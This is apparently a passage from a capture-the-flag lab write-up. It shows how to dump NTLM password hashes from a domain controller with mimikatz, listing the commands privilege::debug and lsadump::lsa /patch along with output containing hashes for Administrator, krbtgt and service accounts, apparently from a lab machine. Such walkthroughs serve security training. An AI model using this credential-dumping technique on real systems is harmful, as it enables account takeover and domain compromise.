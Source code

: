 
Task 4  Dumping hashes w/ mimikatz
-----------------------------------

1. `privilege::debug`
--> Ensures that the output is "Privilege '20' OK"
	- This ensures that you're running mimikatz as an administrator; if you don't run mimikatz as an administrator, mimikatz will not run properly.

2. `lsadump::lsa /patch`
-->  Dump those hashes!

In mimikatz (in windows):
```diff
PS C:\Users\Administrator\Downloads> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 May  2 2020 16:23:51
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )        
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/        


+ mimikatz # privilege::debug  	<--- Ensure that the output is "Privilege '20' OK" - _This ensures that you're running mimikatz as an administrator; if you don't run mimikatz as an administrator, mimikatz will not run properly_

Privilege '20' OK 
                  
mimikatz # lsadump::lsa /patch 
Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166 
                                                              
RID  : 000001f4 (500)                                         
User : Administrator                                          
LM   :                                                        
NTLM : 2777b7fec870e04dda00cd7260f7bee6                       
                                                              
RID  : 000001f5 (501)                                         
User : Guest                                                  
LM   :                                                        
NTLM :                                                        
                                                              
RID  : 000001f6 (502)                                         
User : krbtgt                           
LM   :                                  
NTLM : 5508500012cc005cf7082a9a89ebdfdf 
                                        
RID  : 0000044f (1103)                  
User : Machine1
LM   :
NTLM : 64f12cddaa88057e06a81b54e73b949b
 
RID  : 00000451 (1105)
User : Admin2
LM   :
NTLM : 2b576acbe6bcfda7294d6bd18041b8fe

RID  : 00000452 (1106)
User : Machine2
LM   :
NTLM : c39f2beb3d2ec06a62cb887fb391dee0

RID  : 00000453 (1107)
User : SQLService
```